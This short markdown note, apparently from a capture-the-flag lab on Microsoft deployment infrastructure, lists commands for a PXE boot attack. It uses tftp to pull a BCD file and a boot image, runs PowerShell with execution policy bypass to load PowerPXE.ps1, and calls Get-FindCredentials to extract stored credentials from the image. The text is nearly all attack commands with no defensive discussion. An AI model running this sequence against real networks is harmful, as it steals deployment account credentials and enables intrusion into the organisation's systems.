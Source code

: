 ## PXE Boot Image Retrieval

	tftp -i <THMMDT IP> GET "\Tmp\x64{0F05D72F-5538-4603-A125-4407DC594B13}.bcd" conf.bcd

	powershell -executionpolicy bypass
	Import-Module .\PowerPXE.ps1
	$BCDFile = "conf.bcd"
	Get-WimFile -bcdFile $BCDFile

	tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim

## Recovering Credentials from a PXE Boot Image
	Get-FindCredentials -WimFile pxeboot.wim

